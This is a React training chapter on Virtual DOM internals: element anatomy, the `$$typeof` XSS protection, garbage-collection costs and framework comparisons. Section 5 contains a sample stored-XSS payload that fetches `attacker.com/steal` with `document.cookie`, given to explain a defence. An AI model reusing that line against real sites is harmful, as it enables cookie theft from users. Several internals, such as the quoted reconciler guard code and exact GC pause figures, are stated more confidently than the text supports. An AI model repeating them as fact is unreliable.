





# Chapter 01: Virtual DOM Under the Hood & Object Anatomy

---

## 1. Why This Topic Exists

When developers first encounter React, they are taught that the "Virtual DOM makes React fast." This marketing phrase has misled a generation of engineers. In raw computational speed, manipulating the Virtual DOM is strictly slower than optimal vanilla JavaScript DOM manipulation because creating, traversing, and diffing in-memory JavaScript trees incurs an inherent CPU and memory overhead before touching the real DOM.

So why does the Virtual DOM exist? 

The Virtual DOM is not a performance optimizer; it is a **Declarative Abstraction Vehicle** that makes predictable UI programming at enterprise scale humanly tractable. In complex enterprise applications with hundreds of asynchronous state events (WebSockets, user inputs, analytics, timers), writing manual imperative DOM mutation code (`document.createElement`, `parent.replaceChild`) leads to state desynchronization, layout thrashing, and unmaintainable spaghetti code.

The Virtual DOM solves this by allowing developers to write declarative projections: `UI = f(State)`. The developer simply describes what the UI *should look like* as a lightweight JavaScript object tree, and React's reconciliation engine calculates the minimal delta required to update the physical browser DOM.

To operate at a Staff or Principal Engineer level, one must demystify the Virtual DOM: dissecting its C++ V8 heap representation, understanding the `$$typeof` security barrier, profiling the garbage collection footprint, and evaluating modern alternatives like compiler-driven reactivity (Svelte) and fine-grained reactive signals (Solid, Angular).

---

## 2. Learning Objectives

By the end of this chapter, you will be able to:

* Dissect the exact runtime anatomy and V8 memory layout of a React Element (`vnode`).
* Explain the technical necessity of `$$typeof: Symbol.for('react.element')` in preventing client-side Cross-Site Scripting (XSS).
* Contrast the C++ memory weight of a Blink `HTMLDivElement` (300+ properties) against a V8 Virtual DOM object literal (6 fields).
* Trace the complete lifecycle of a React Element from JSX compilation to Fiber node instigation.
* Evaluate the architectural debate: Virtual DOM vs. Fine-Grained Reactive Signals vs. Compiler-Driven Direct DOM.
* Compare React's Virtual DOM with Angular's `LView` / `TView` architecture and .NET's Blazor RenderTree.
* Answer Staff-level interview questions on VDOM overhead, memory allocations, and high-frequency UI tuning.

---

## 3. Historical Evolution



1. **The Classic Era (React 0.3 – 15):**
   React pioneered the Virtual DOM. Every component render created an entire tree of plain JavaScript objects. The "Stack Reconciler" recursively walked the tree synchronously. While revolutionary, it suffered from a major flaw: deep component trees locked the browser's main thread, causing frame drops and input lag that could not be paused or interrupted.
2. **The Fiber Revolution (React 16 – 18):**
   React decoupled the **Virtual DOM Element** (a transient description of the UI) from the **Fiber Node** (the long-lived stateful unit of work). React Elements are now ephemeral young-generation objects created and discarded in V8's Nursery space, while Fibers persist in Old Space across render cycles, enabling cooperative time-slicing and concurrent priority scheduling.
3. **The Modern & Compiler Era (React 19+):**
   The React Compiler analyzes component ASTs to hoists static Virtual DOM elements outside the render function entirely. Static JSX subtrees are created once at module evaluation time, reducing nursery heap allocations to near-zero.

---

## 4. First Principles & Intuitive Physical Analogies (Layer 1)

### The Architect's Blueprints vs. The Physical Skyscraper

Imagine constructing and remodeling a commercial skyscraper:

* **The Real DOM as The Physical Skyscraper (C++ Blink Engine):**
  Every wall is made of reinforced concrete, steel beams, plumbing pipes, and high-voltage wiring. If the CEO wants to move a doorway, you do not immediately hire a demolition crew with sledgehammers to knock down walls at random. Knocking down a physical wall produces concrete dust, interrupts tenant meetings, and requires structural re-calculations (Browser Reflow / Layout).
* **The Virtual DOM as The Architect's Tracing Paper (V8 JavaScript Heap):**
  Instead of swinging sledgehammers, the architect pulls out a sheet of translucent tracing paper and sketches the revised floor plan with a pencil. The pencil sketch takes 2 seconds and costs 1 cent.
* **The Diffing Process (Reconciliation):**
  The architect overlays the new pencil sketch on top of the original blueprint, compares the two, and identifies the exact delta: *"We only need to remove two drywall panels on the 4th floor."*
* **The Commit (Mutation):**
  The architect hands the contractor a precise, two-item punch list. The contractor enters the building, makes those two exact cuts, and exits. The tenants are never disturbed, and the building never shakes.

---

## 5. Internal Working & Engine Architecture (Layer 2)

### Anatomy of a React Element Object

When JSX compiles, it emits calls to `_jsx()` or `_jsxs()` from `react/jsx-runtime`. This function allocates a plain, frozen JavaScript object:

```javascript
// A raw React Element inspected on the V8 heap:
const reactElement = {
  $$typeof: Symbol.for('react.element'), // Security fingerprint
  type: 'button',                        // DOM tag string or Component function pointer
  key: 'btn-submit',                     // Diffing identity key (or null)
  ref: null,                             // DOM node or imperative handle reference
  props: {                               // Attributes, event handlers, and children
    className: 'btn-primary',
    disabled: false,
    onClick: [Function: handleClick],
    children: 'Submit Order'
  },
  _owner: fiberNodeInstance              // Fiber that created this element (Dev telemetry)
};
```

### The `$$typeof` Anti-XSS Security Barrier

Why does every React element contain `$$typeof: Symbol.for('react.element')`?

Consider a classic server-side stored XSS attack. An attacker injects malicious JSON data into a database (e.g., via a user bio or comment field):

```json
{
  "userBio": {
    "type": "script",
    "props": {
      "dangerouslySetInnerHTML": {
        "__html": "fetch('http://attacker.com/steal?cookie=' + document.cookie)"
      }
    }
  }
}
```

If an enterprise application naively renders `{user.userBio}` without validation, a rendering engine that checks only plain objects might treat this malicious payload as a valid Virtual DOM node and inject an active `<script>` tag into the DOM!

To eliminate this vulnerability at the architectural level, React stamps every genuine element with a **global ES6 Symbol**:
`Symbol.for('react.element')`

**Why JSON Cannot Forge This Symbol:**
JSON specification **does not support Symbols**. When JSON is parsed via `JSON.parse()`, any JSON payload attempting to include a symbol is converted to a string or discarded:

```javascript
JSON.stringify({ $$typeof: Symbol.for('react.element') }) // Returns "{}"!
```

When React's reconciler encounters a node during rendering, it executes a strict security guard in `react-reconciler/src/ReactFiber.js`:

```javascript
if (element.$$typeof !== Symbol.for('react.element')) {
  // Reject element! The wax security seal is missing or forged.
  throw new Error('Element type is invalid: expected a React element.');
}
```

This prevents JSON-injected payloads from ever executing as executable Virtual DOM nodes.

---

## 6. Runtime Flow & Execution Traces

Let us trace the complete lifecycle of a Virtual DOM node from code to screen:



### Execution Trace: Component Re-render

1. **Trigger:** `setUser('Bob')` schedules an update.
2. **Execution:** The component function re-evaluates in V8.
3. **Allocation:** `_jsx()` allocates a fresh tree of React Element objects in V8's New Space (Nursery).
4. **Reconciliation (beginWork):** React iterates through the new React Elements, comparing them against the long-lived `workInProgress` Fiber tree.
5. **Element Disposal:** The React Elements have completed their purpose. Because they are plain short-lived objects, V8's **Cheney Scavenger** collects them in sub-millisecond GC passes without touching Old Space.

---

## 7. Memory Model & Heap Layout

To understand why the Virtual DOM is fast enough for practical use, compare the memory footprint of a real browser DOM node against a React Element on the V8 heap:



Because a Virtual DOM element is **~30x lighter** than a real DOM element and has zero layout/paint attachments, allocating 5,000 React elements in V8 takes less than **2 milliseconds**, whereas allocating 5,000 physical DOM nodes in Blink takes over **60 milliseconds** and consumes megabytes of memory.

---

## 8. Visual Diagrams (ASCII / Text)

### The Dual-Tree Architecture: React Elements vs. Fiber Nodes



**Key Architectural Distinction:**
* **React Elements (Virtual DOM):** Transient, immutable descriptors. Created every render; garbage collected immediately after.
* **Fiber Nodes:** Long-lived stateful data structures. Retained across renders, storing local state linked lists, DOM refs, and priority lane bitmasks.

---

## 9. Real World Usage & Production Patterns

> 🧪 **Companion Interactive Lab:** [JsxCompilerLab.tsx](../../apps/portal/src/features/visualizers/topic-03-jsx/JsxCompilerLab.tsx) | Live in Portal: lab-10-jsx-compiler

### Pattern 1: Hoisting Static Subtrees Outside the Render Loop

If a component renders a complex, static SVG or graphic that never depends on props or state, declaring it inside the component forces V8 to allocate fresh Virtual DOM objects on every single render:

```tsx
// ❌ ANTIPATTERN: Allocates 20 VDOM objects on EVERY render pass!
export function StatusIndicator({ status }: { status: string }) {
  return (
    <div>
      <span>Status: {status}</span>
      <svg width="24" height="24" viewBox="0 0 24 24">
        <path d="M12 2L2 22h20L12 2z" />
        <circle cx="12" cy="12" r="4" />
      </svg>
    </div>
  );
}

// ✅ PRODUCTION PATTERN: Static Subtree Hoisting (Zero Allocation per render)
const StaticWarningIcon = (
  <svg width="24" height="24" viewBox="0 0 24 24">
    <path d="M12 2L2 22h20L12 2z" />
    <circle cx="12" cy="12" r="4" />
  </svg>
);

export function StatusIndicator({ status }: { status: string }) {
  return (
    <div>
      <span>Status: {status}</span>
      {/* Exact same object reference: React reconciler bails out immediately! */}
      {StaticWarningIcon}
    </div>
  );
}
```

*(Note: The React 19 Compiler performs this hoisting automatically across your entire codebase at build-time!)*

---

## 10. Angular Comparison

For senior engineers with extensive background in Angular:

| Dimension | React Virtual DOM | Angular LView & TView Architecture |
| :--- | :--- | :--- |
| **Intermediate Representation** | **Virtual DOM Tree:** Plain JavaScript object tree created dynamically during component render execution. | **No Virtual DOM.** Angular's Ivy compiler compiles templates directly into imperative bytecode instructions (`ɵɵelementStart`, `ɵɵtextInterpolate`). |
| **Memory Architecture** | Objects allocated in V8 Nursery; diffed and discarded every render cycle. | **`LView` (Logical View):** Stores component instance state. **`TView` (Template View):** Shared static structural blueprint cached once per component type. |
| **Change Detection Mechanism** | Re-creates Virtual DOM nodes and diffs them against previous Fiber work tree. | Traverses `LView` memory slots in a linear array, comparing current values against previous values via dirty-checking (`===`). |
| **Runtime Overhead** | Garbage collection pressure in New Space when cloning large trees. | Zero intermediate object allocation; updates directly write to DOM via cached instructions. |

---

## 11. .NET Comparison

For engineers with deep experience in C# and .NET Blazor:

| Feature / Concept | React Virtual DOM | .NET Blazor Architecture |
| :--- | :--- | :--- |
| **In-Memory UI Tree** | React Element object hierarchy (`_jsx`). | **`RenderTree` / `RenderTreeBuilder`:** Struct-based array buffer holding UI sequence frames (`RenderTreeFrame`). |
| **Allocation Strategy** | Managed V8 heap object allocations. | Blazor uses a reusable array buffer (`RenderTreeFrame[]`) to minimize CLR Gen 0 garbage collection allocations. |
| **Diffing Mechanism** | Heuristic O(n) diffing on Fiber linked lists. | Sequential integer sequence matching (`sequence` numbers emitted by Razor compiler). |
| **Thread Model** | Single-threaded JavaScript event loop. | Blazor Server executes diffs on ASP.NET Core server threads, streaming binary deltas over SignalR WebSockets. |

---

## 12. Enterprise Perspective & Production Risks (Layer 4)

### 1. The Virtual DOM Garbage Collection Thrashing Trap
In enterprise dashboards with high-frequency telemetry (e.g. 50 updates per second across 5,000 grid cells), the continuous creation of 5,000 React Elements 50 times per second allocates **250,000 objects per second** on the V8 nursery. 
Even though V8's Scavenger is fast, this excessive allocation rate forces GC to run every 100 milliseconds, triggering periodic **10-15ms Stop-The-World micro-pauses** that cause UI stutter.

**The Fix:**
* Normalize grid state.
* Isolate ticking cells into leaf components wrapped in `React.memo`.
* For ultra-high frequency displays (e.g. stock price tickers), update the DOM imperatively via `ref.current.textContent = newPrice`, completely bypassing Virtual DOM allocations.

### 2. Accidental Object Recreation in Props
Passing inline object literals `<Header style={{ margin: 0 }} />` generates a fresh object reference on every frame, forcing child reconciliation even if the visual output is 100% identical.

---

## 13. Performance Considerations



1. **Virtual DOM is Fast Enough, Not Fastest:**
   Svelte and Solid prove that compiling templates into direct DOM bindings eliminates Virtual DOM diffing overhead entirely. React trades this raw CPU efficiency in exchange for its expressive, pure JavaScript runtime programming model.
2. **React Compiler Optimization:**
   In React 19, the compiler automatically detects unchanging JSX fragments and caches their Virtual DOM element instances, reducing GC churn by up to 80% in large enterprise applications.

---

## 14. Tradeoffs

| Approach | Advantages | Disadvantages | Best Used In |
| :--- | :--- | :--- | :--- |
| **Virtual DOM (React)** | Pure declarative programming; rich dynamic JavaScript composition; cross-platform target (React Native). | Inherent memory allocation; GC overhead; slower than direct signals on extreme update frequencies. | 95% of web application development; complex enterprise UIs. |
| **Direct Imperative DOM (`refs`)** | Zero memory allocation; zero reconciliation overhead; sub-millisecond updates. | Breaks declarative mental model; unmaintainable at scale; prone to state desynchronization. | High-frequency canvas animations, audio visualizers, video player overlays. |
| **Fine-Grained Signals (Solid/Angular)** | Surgical DOM updates without component re-renders; zero diffing overhead. | Complex reactive dependency tracking; requires learning signal primitives. | Ultra-high performance data grids, embedded web widgets. |

---

## 15. Common Mistakes & Interview Traps

* **Trap 1: Believing the Virtual DOM is a Browser API.**
  * *Trap:* Thinking the browser has a built-in "Virtual DOM" interface.
  * *Reality:* The Virtual DOM is purely a software design pattern implemented as plain JavaScript objects running in V8 userland.
* **Trap 2: Assuming Virtual DOM is Faster than Direct DOM Manipulation.**
  * *Trap:* Claiming React is faster than hand-written vanilla JavaScript.
  * *Reality:* Hand-tuned imperative DOM manipulation targeting exact nodes is mathematically the fastest possible execution. React is fast *compared to naive, unoptimized DOM rewrites*.
* **Trap 3: Manually Mutating Virtual DOM Elements.**
  * *Code:* `const el = <div>Hello</div>; el.props.children = 'World';`
  * *Trap:* React freezes element objects in development mode (`Object.freeze(element.props)`). Mutating element properties throws a runtime TypeError.

---

## 16. Interview Questions & Architectural Answers (Senior, Lead, Architect - Layer 5)

### Question 1 (Senior Level): The Exact Purpose of `$$typeof`
**Interviewer:** *"Why does a React Element contain `$$typeof: Symbol.for('react.element')` instead of a simple string like `$$typeof: 'react.element'`? What specific vulnerability does this prevent?"*

**Answer:**
The `$$typeof` property is an architectural security barrier designed to prevent client-side **Stored Cross-Site Scripting (XSS)** attacks stemming from user-controlled JSON data.

If `$$typeof` were a plain string, an attacker could submit a JSON payload containing an object shaped like a React element (`{ type: 'script', props: { dangerouslySetInnerHTML: { __html: 'alert(1)' } } }`). If an application rendered this object directly (e.g. `{comment.text}`), React would treat it as a valid Virtual DOM node and render an active `<script>` tag.

Because `$$typeof` requires a genuine ES6 Symbol (`Symbol.for('react.element')`), and because the JSON specification strictly disallows Symbol data types, it is mathematically impossible for an attacker to inject a valid React Element through a JSON API response. When `JSON.parse()` processes the payload, the symbol cannot be produced, causing React's reconciler to reject the forged object immediately.

---

### Question 2 (Lead Level): Virtual DOM Garbage Collection Optimization in Real-Time Grids
**Interviewer:** *"We are building a real-time options trading interface rendering 20,000 price quotes updating multiple times per second. Profiling shows that the application spends 25% of its CPU time inside V8's Cheney Scavenger Garbage Collector. How would you architect the Virtual DOM layer to eliminate this GC pressure?"*

**Answer:**
A 25% GC time indicates that the application is continually allocating and discarding hundreds of thousands of ephemeral React Element objects in V8's New Space, triggering relentless Scavenger passes. The architecture must eliminate unnecessary Virtual DOM allocations:

1. **Windowing / Virtualization:**
   Do not render 20,000 rows into the Virtual DOM. Use `@tanstack/react-virtual` to mount only the visible 30 rows in the viewport, reducing allocations by 99.8%.
2. **Selective Branch Isolation via `React.memo`:**
   Wrap row and cell components in `React.memo`. When an incoming WebSocket update ticks for option contract `#402`, ensure that only contract `#402` allocates a new React Element.
3. **Static Subtree Hoisting:**
   Ensure that static icons, table headers, and layout wrappers are hoisted as static constants outside component bodies so they are allocated only once during application bootstrap.
4. **Imperative Bypass for Rapid Flashing Cells:**
   For cells that flash green/red on microsecond ticks, bypass Virtual DOM element allocation entirely. Store `useRef` pointers to the table cell DOM nodes and update their `textContent` and `style.backgroundColor` imperatively from a `requestAnimationFrame` queue.

---

### Question 3 (Architect Level): Virtual DOM vs. Signals vs. Direct Compilation
**Interviewer:** *"As a Frontend Architect choosing the technology stack for a mission-critical enterprise portal expected to last 10 years, compare React's Virtual DOM architecture against Svelte's compiler-driven direct DOM and Angular/Solid's fine-grained reactive Signals. What are the long-term maintainability, performance, and ecosystem trade-offs?"*

**Answer:**
Each paradigm represents a distinct engineering trade-off:

1. **React (Virtual DOM + Compiler):**
   * *Mechanism:* Coarse-grained component re-execution producing intermediate in-memory descriptors (VDOM), reconciled via Fiber.
   * *Trade-off:* Moderate memory allocation overhead and runtime diffing cost, balanced by the unmatched power of **pure JavaScript composition** (UI as data), seamless cross-platform abstraction (React Native), and the largest enterprise talent pool.
2. **Svelte (Compiler-Driven Direct DOM):**
   * *Mechanism:* Build-time compiler converts templates into surgical imperative DOM instructions (`p.update()`), completely eliminating the Virtual DOM runtime.
   * *Trade-off:* Tiny runtime bundles and zero VDOM diffing overhead, but custom DSL constraints make dynamic meta-programming harder, and large codebases suffer from proportional bundle size growth per component.
3. **Solid / Modern Angular (Fine-Grained Reactive Signals):**
   * *Mechanism:* Components execute **exactly once on mount** to construct a reactive dependency graph of signals (`signal()`, `computed()`). When a signal updates, it writes directly to the specific DOM text node without walking or diffing component trees.
   * *Trade-off:* Maximum possible runtime performance and zero garbage collection pressure, but requires developers to manage reactive subscriptions strictly and avoid premature destructuring.

**Architectural Recommendation:**
For complex enterprise portals with deep multi-team codebases, complex domain abstractions, and long lifecycle requirements, React's Virtual DOM paired with the modern React 19 Compiler provides the optimal balance: compiler-driven auto-memoization that closes the performance gap with signals, backed by the stability and security of the React ecosystem.

---

## 17. Senior-Level Mental Model & "How to Remember This Forever" (Memory Anchors - Layer 3)

### The Three Inviolable Laws of the Virtual DOM

1. **The Blueprint Law (Abstraction, Not Speed):**
   *The Virtual DOM is an architect's tracing paper, not a turbocharged hammer.* Its purpose is to give you pure declarative state projection (`UI = f(State)`); the speed comes from avoiding unnecessary real DOM layout reflows.
2. **The Wax Seal Rule (`$$typeof`):**
   *Never accept an envelope without the King's unbroken wax seal.* Every valid React element carries a native ES6 Symbol that JSON can never forge, safeguarding your enterprise application against stored XSS attacks.
3. **The Ephemeral Nursery Principle:**
   *React Elements are born in the nursery and die in the nursery; Fibers live in the mansion.* Virtual DOM objects are cheap, short-lived descriptors; Fiber nodes are the persistent architectural backbone that manages state and schedules work.

---

## 18. Core Vocabulary & "Aha!" Breakthrough Insights (Refresher)

* **Virtual DOM:** A lightweight, in-memory tree of plain JavaScript objects representing the desired state of the user interface.
* **React Element (`vnode`):** A single plain JavaScript object literal containing `$$typeof`, `type`, `key`, `ref`, and `props`.
* **`$$typeof`:** The security property holding `Symbol.for('react.element')` to prevent JSON-based XSS injection.
* **Blink Engine:** Chromium's C++ rendering and layout engine responsible for physical DOM construction, CSSOM cascading, reflow, and pixel painting.
* **Static Subtree Hoisting:** The optimization where immutable JSX fragments are declared outside component functions to prevent allocation during re-renders.

---

## 19. Key Takeaways

1. **The Virtual DOM is an abstraction for developer sanity, not a raw speed trick.** It enables declarative `UI = f(State)` architectures at enterprise scale.
2. **A React Element is a plain object of ~64 bytes.** It is ~30x lighter than a physical C++ `HTMLDivElement` node (2,000+ bytes).
3. **`$$typeof: Symbol.for('react.element')` is a critical security barrier.** It prevents JSON payloads from injecting malicious scripts into the component tree.
4. **React Elements are ephemeral; Fibers are persistent.** Elements are allocated in V8's Nursery and garbage collected immediately after reconciliation.
5. **The React 19 Compiler eliminates manual hoisting.** It automatically caches and hoists static subtrees at build-time to minimize GC pressure.

---

## 20. Revision Sheet

```text
========================================================================================
REACT VIRTUAL DOM & OBJECT ANATOMY QUICK REVISION
========================================================================================

1. WHAT IS A VIRTUAL DOM ELEMENT (ANATOMY):
   {
     $$typeof: Symbol.for('react.element'), // Anti-XSS wax seal
     type: 'div' | ComponentFunction,       // Element tag or component pointer
     key: string | null,                    // Diffing identity
     ref: RefObject | null,                 // DOM node pointer
     props: { ...children, ...attributes }  // Properties and content
   }

2. WHY IS REAL DOM "SLOW"?
   - C++ Blink object holds 300+ properties.
   - Touching properties triggers layout thrashing (Reflow & Paint).
   - JavaScript must cross the expensive C++ Binding Bridge.

3. WHY VIRTUAL DOM IS EFFICIENT:
   - Plain JS objects allocated in V8 New Space (~64 bytes).
   - Diffing runs in pure V8 memory at microsecond speeds.
   - Mutations are batched and applied in a single atomic Commit pass.

4. THE $$typeof SECURITY EXPLANATION:
   - Problem: Attackers inject malicious JSON objects representing HTML tags.
   - Solution: React requires $$typeof to be Symbol.for('react.element').
   - Why it works: JSON cannot serialize or parse ES6 Symbols.

5. ARCHITECTURAL COMPARISON:
   - React: Virtual DOM + Fiber linked list + Compiler auto-memoization.
   - Angular: LView / TView direct instructions + Signals dependency graph.
   - Svelte / Solid: Zero VDOM; compile-time direct DOM binding.
========================================================================================
```
